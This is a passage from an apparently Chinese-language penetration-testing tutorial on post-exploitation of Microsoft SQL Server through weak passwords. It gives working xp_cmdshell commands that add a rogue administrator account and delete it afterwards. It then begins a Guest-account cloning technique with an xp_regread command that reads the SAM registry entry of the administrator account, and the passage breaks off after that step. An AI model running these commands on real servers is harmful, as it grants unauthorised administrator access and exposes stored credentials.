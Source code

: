 ### \#0x02 添加管理员账户 
这种方法操作最简单，但是动静相对比较大，隐蔽性不高，渗透测试中使用的还是比较多的。  
1、添加用户  
2、添加至管理员组  
3、使用admin进行远程桌面登录  
4、利用完成后删除账户  
```
exec master..xp_cmdshell 'net user admin 123 /add'
exec master..xp_cmdshell 'net localgroup administrators admin /add'
exec master..xp_cmdshell 'net user admin /del'
```

![](https://github.com/PythonPig/PythonPig.github.io/blob/master/images/mssql%E5%BC%B1%E5%8F%A3%E4%BB%A4%E5%88%A9%E7%94%A8/net%20user%20add.jpeg?raw=true)  
  
![](https://github.com/PythonPig/PythonPig.github.io/blob/master/images/mssql%E5%BC%B1%E5%8F%A3%E4%BB%A4%E5%88%A9%E7%94%A8/net%20user.jpeg?raw=true)

### \#0x03 提权Guest账户（账户克隆）
1、获取administrator账号的相关信息  
```
exec master..xp_regread 'HKEY_LOCAL_MACHINE','SAM\SAM\Domains\Account\Users\000001F4','F'
```
  